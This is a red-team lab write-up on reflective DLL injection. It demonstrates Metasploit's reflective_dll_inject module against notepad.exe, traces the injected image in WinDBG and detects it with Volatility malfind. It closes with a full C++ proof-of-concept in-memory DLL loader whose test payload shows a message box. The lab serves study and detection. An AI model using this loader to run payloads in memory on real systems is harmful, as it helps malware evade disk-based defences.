# Reflective DLL Injection

Reflective DLL injection is a technique that allows an attacker to inject a DLL's into a victim process **from memory** rather than disk.

## Purpose

The purpose of this lab is to:

* Test reflective DLL injection capability in metasploit
* Goof around with basic memory forensics
* Implement a simple reflective DLL injection POC by myself

## Technique Overview

The way the reflective injection works is nicely described by the technique's original author Stephen Fewer [here](https://github.com/stephenfewer/ReflectiveDLLInjection):

> * Execution is passed, either via CreateRemoteThread\(\) or a tiny bootstrap shellcode, to the library's ReflectiveLoader function which is an exported function found in the library's export table.
> * As the library's image will currently exists in an arbitrary location in memory the ReflectiveLoader will first calculate its own image's current location in memory so as to be able to parse its own headers for use later on.
> * The ReflectiveLoader will then parse the host processes kernel32.dll export table in order to calculate the addresses of three functions required by the loader, namely LoadLibraryA, GetProcAddress and VirtualAlloc.
> * The ReflectiveLoader will now allocate a continuous region of memory into which it will proceed to load its own image. The location is not important as the loader will correctly relocate the image later on.
> * The library's headers and sections are loaded into their new locations in memory.
> * The ReflectiveLoader will then process the newly loaded copy of its image's import table, loading any additional library's and resolving their respective imported function addresses.
> * The ReflectiveLoader will then process the newly loaded copy of its image's relocation table.
> * The ReflectiveLoader will then call its newly loaded image's entry point function, DllMain with DLL\_PROCESS\_ATTACH. The library has now been successfully loaded into memory.
> * Finally the ReflectiveLoader will return execution to the initial bootstrap shellcode which called it, or if it was called via CreateRemoteThread, the thread will terminate.

## Execution

This lab assumes that the attacker has already gained a meterpreter shell from the victim system and will now attempt to perform a reflective DLL injection into a remote process on a compromised victim system, more specifically into a `notepad.exe` process with PID `6156`

Metasploit's post-exploitation module `windows/manage/reflective_dll_inject` configured:



`Reflective_dll.x64.dll` is the DLL compiled from Steven Fewer's [reflective dll injection](%20https://github.com/stephenfewer/ReflectiveDLLInjection) project on github.


After executing the post exploitation module, the below graphic shows how the notepad.exe executes the malicious payload that came from a reflective DLL that was sent over the wire from the attacker's system:



## Observations

Once the metasploit's post-exploitation module is run, the procmon accurately registers that notepad created a new thread:



Let's see if we can locate where the contents of `reflective_dll.x64.dll` are injected into the victim process when the metasploit's post-exploitation module executes.

For that, lets debug notepad in WinDBG and set up a breakpoint for `MessageBoxA` as shown below and run the post-exploitation module again:

```cpp
0:007> bp MessageBoxA
0:007> bl
0 e 00000000`77331304     0001 (0001)  0:**** USER32!MessageBoxA
```

The breakpoint is hit:



At this point, we can inspect the stack with `kv` and see the call trace. A couple of points to note here:

* return address the code will jump to after the `USER32!MessageBoxA` finishes is `00000000031e103e`
* inspecting assembly instructions around `00000000031e103e`, we see a call instruction `call qword ptr [00000000031e9208]`
* inspecting bytes stored in `00000000031e9208`, \(`dd 00000000031e9208 L1`\) we can see they look like a memory address `0000000077331304` \(note this address\)
* inspecting the EIP pointer \(`r eip`\) where the code execution is paused at the moment, we see that it is the same `0000000077331304` address, which means that the earlier mentioned instruction `call qword ptr [00000000031e9208]` is the actual call to `USER32!MessageBoxA`
* This means that prior to the above mentioned instruction, there must be references to the variables that are passed to the `MessageBoxA` function:



If we inspect the `00000000031e103e` 0x30 bytes earlier, we can see some suspect memory addresses and the call instruction almost immediatley after that:



Upon inspecting those two addresses - they are indeed holding the values the `MessageBoxA` prints out upon successful DLL injection into the victim process:

```cpp
0:007> da 00000000`031e92c8
00000000`031e92c8  "Reflective Dll Injection"
0:007> da 00000000`031e92e8
00000000`031e92e8  "Hello from DllMain!"
```



Looking at the output of the `!address` function and correlating it with the addresses the variables are stored at, it can be derived that the memory region allocated for the evil dll is located in the range `031e0000 - 031f7000`:



Indeed, if we look at the `031e0000`, we can see the executable header \(MZ\) and the strings fed into the `MessageBoxA` API can be also found further into the binary:



## Detecting Reflective DLL Injection with Volatility

`Malfind` is the Volatility's pluging responsible for finding various types of code injection and reflective DLL injection can usually be detected with the help of this plugin. 

The plugin, at a high level will scan through various memory regions described by Virtual Address Descriptors \(VADs\) and look for any regions with `PAGE_EXECUTE_READWRITE` memory protection and then check for the magic bytes `4d5a` \(MZ in ASCII\) at the very beginning of those regions as those bytes signify the start of a Windows executable \(i.e exe, dll\):

```csharp
volatility -f /mnt/memdumps/w7-reflective-dll.bin malfind --profile Win7SP1x64
```

Note how in our case, volatility discovered the reflective dll injection we inspected manually above with WindDBG:



## Implementing Reflective DLL Injection

I wanted to program a simplified Reflective DLL Injection POC to make sure I understood its internals, so this is my attempt and its high level workflow of how I've implemented it:

1. Read raw DLL bytes into a memory buffer
2. Parse DLL headers and get the SizeOfImage
3. Allocate new memory space for the DLL of size `SizeOfImage`
4. Copy over DLL headers and PE sections to the memory space allocated in step 3
5. Perform image base relocations
6. Load DLL imported libraries
7. Resolve Import Address Table \(IAT\)
8. Invoke the DLL with `DLL_PROCESS_ATTACH` reason

Steps 1-4 are pretty straight-forward as seen from the code below. For step 5 related to image base relocations, see my notes [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md#relocation)

### Resolving Import Address Table

Portable Executables \(PE\) use Import Address Table \(IAT\) to lookup function names and their memory addresses when they need to be called during runtime.

When dealing with reflective DLLs, we need to load all the dependent libraries of the DLL into the current process and fix up the IAT to make sure that the functions that the DLL imports point to correct function addresses in the current process memory space.

In order to load the depending libraries, we need to parse the DLL headers and:

1. Get a pointer to the first Import Descriptor
2. From the descriptor, get a pointer to the imported library name
3. Load the library into the current process with `LoadLibrary`
4. Repeat process until all Import Descriptos have been walked through and all depending libraries loaded

Before proceeding, note that my test DLL I will be using for this POC is just a simple MessageBox that gets called once the DLL is loaded into the process:


Below shows the first Import Descriptor of my test DLL. The first descriptor suggests that the DLL imports User32.dll and its function MessageBoxA. On the left, we can see a correctly resolved library name that is about to be loaded into the memory process with `LoadLibrary`:


Below shows that the user32.dll gets loaded successfully:



After the Import Descriptor is read and its corresponding library is loaded, we need to loop through all the thunks \(data structures describing functions the library imports\), resolve their addresses using `GetProcAddress` and put them into the IAT so that the DLL can reference them when needed:


Once we have looped through all the Import Decriptors and their thunks, the IAT is considered resolved and we can now execute the DLL. Below shows a successfully loaded and executed DLL that pops a message box:



### Code

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

using DLLEntry = BOOL(WINAPI *)(HINSTANCE dll, DWORD reason, LPVOID reserved);

int main()
{
	// get this module's image base address
	PVOID imageBase = GetModuleHandleA(NULL);

	// load DLL into memory
	HANDLE dll = CreateFileA("\\\\VBOXSVR\\Experiments\\MLLoader\\MLLoader\\x64\\Debug\\dll.dll", GENERIC_READ, NULL, NULL, OPEN_EXISTING, NULL, NULL);
	DWORD64 dllSize = GetFileSize(dll, NULL);
	LPVOID dllBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dllSize);
	ReadFile(dll, dllBytes, dllSize, NULL, NULL);

	// get pointers to in-memory DLL headers
	PIMAGE_DOS_HEADER dosHeaders = (PIMAGE_DOS_HEADER)dllBytes;
	PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)dllBytes + dosHeaders->e_lfanew);
	SIZE_T dllImageSize = ntHeaders->OptionalHeader.SizeOfImage;

	// allocate new memory space for the DLL. Try to allocate memory in the image's preferred base address, but don't stress if the memory is allocated elsewhere
	//LPVOID dllBase = VirtualAlloc((LPVOID)0x000000191000000, dllImageSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	LPVOID dllBase = VirtualAlloc((LPVOID)ntHeaders->OptionalHeader.ImageBase, dllImageSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
			
	// get delta between this module's image base and the DLL that was read into memory
	DWORD_PTR deltaImageBase = (DWORD_PTR)dllBase - (DWORD_PTR)ntHeaders->OptionalHeader.ImageBase;

	// copy over DLL image headers to the newly allocated space for the DLL
	std::memcpy(dllBase, dllBytes, ntHeaders->OptionalHeader.SizeOfHeaders);

	// copy over DLL image sections to the newly allocated space for the DLL
	PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);
	for (size_t i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++)
	{
		LPVOID sectionDestination = (LPVOID)((DWORD_PTR)dllBase + (DWORD_PTR)section->VirtualAddress);
		LPVOID sectionBytes = (LPVOID)((DWORD_PTR)dllBytes + (DWORD_PTR)section->PointerToRawData);
		std::memcpy(sectionDestination, sectionBytes, section->SizeOfRawData);
		section++;
	}

	// perform image base relocations
	IMAGE_DATA_DIRECTORY relocations = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
	DWORD_PTR relocationTable = relocations.VirtualAddress + (DWORD_PTR)dllBase;
	DWORD relocationsProcessed = 0;

	while (relocationsProcessed < relocations.Size) 
	{
		PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)(relocationTable + relocationsProcessed);
		relocationsProcessed += sizeof(BASE_RELOCATION_BLOCK);
		DWORD relocationsCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
		PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)(relocationTable + relocationsProcessed);

		for (DWORD i = 0; i < relocationsCount; i++)
		{
			relocationsProcessed += sizeof(BASE_RELOCATION_ENTRY);

			if (relocationEntries[i].Type == 0)
			{
				continue;
			}

			DWORD_PTR relocationRVA = relocationBlock->PageAddress + relocationEntries[i].Offset;
			DWORD_PTR addressToPatch = 0;
			ReadProcessMemory(GetCurrentProcess(), (LPCVOID)((DWORD_PTR)dllBase + relocationRVA), &addressToPatch, sizeof(DWORD_PTR), NULL);
			addressToPatch += deltaImageBase;
			std::memcpy((PVOID)((DWORD_PTR)dllBase + relocationRVA), &addressToPatch, sizeof(DWORD_PTR));
		}
	}
	
	// resolve import address table
	PIMAGE_IMPORT_DESCRIPTOR importDescriptor = NULL;
	IMAGE_DATA_DIRECTORY importsDirectory = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
	importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)(importsDirectory.VirtualAddress + (DWORD_PTR)dllBase);
	LPCSTR libraryName = "";
	HMODULE library = NULL;

	while (importDescriptor->Name != NULL)
	{
		libraryName = (LPCSTR)importDescriptor->Name + (DWORD_PTR)dllBase;
		library = LoadLibraryA(libraryName);
		
		if (library)
		{
			PIMAGE_THUNK_DATA thunk = NULL;
			thunk = (PIMAGE_THUNK_DATA)((DWORD_PTR)dllBase + importDescriptor->FirstThunk);

			while (thunk->u1.AddressOfData != NULL)
			{
				if (IMAGE_SNAP_BY_ORDINAL(thunk->u1.Ordinal))
				{
					LPCSTR functionOrdinal = (LPCSTR)IMAGE_ORDINAL(thunk->u1.Ordinal);
					thunk->u1.Function = (DWORD_PTR)GetProcAddress(library, functionOrdinal);
				}
				else
				{
					PIMAGE_IMPORT_BY_NAME functionName = (PIMAGE_IMPORT_BY_NAME)((DWORD_PTR)dllBase + thunk->u1.AddressOfData);
					DWORD_PTR functionAddress = (DWORD_PTR)GetProcAddress(library, functionName->Name);
					thunk->u1.Function = functionAddress;
				}
				++thunk;
			}
		}

		importDescriptor++;
	}

	// execute the loaded DLL
	DLLEntry DllEntry = (DLLEntry)((DWORD_PTR)dllBase + ntHeaders->OptionalHeader.AddressOfEntryPoint);
	(*DllEntry)((HINSTANCE)dllBase, DLL_PROCESS_ATTACH, 0);

	CloseHandle(dll);
	HeapFree(GetProcessHeap(), 0, dllBytes);

	return 0;
}
```

## References









